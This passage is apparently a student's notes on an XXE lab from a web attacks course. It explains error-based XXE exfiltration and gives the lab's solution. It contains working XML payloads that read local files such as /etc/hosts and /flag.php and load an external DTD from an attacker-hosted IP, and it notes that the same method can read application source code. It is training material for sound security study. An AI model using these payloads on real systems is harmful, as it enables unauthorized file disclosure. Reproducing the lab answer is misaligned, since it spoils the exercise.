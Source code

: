 ```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.192:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows:&#x20;

![exfil\_error](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.

## Question

***

![](images/Pasted%20image%2020250217180146.png)

We can use the following payloads in order to get the flag:

For `xxe.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```

And, the XML payload:

```xml
<!DOCTYPE email [

  <!ENTITY % dtd SYSTEM

  "http://IP:8000/xxe.dtd">

  %dtd;

  %all;

]>
```
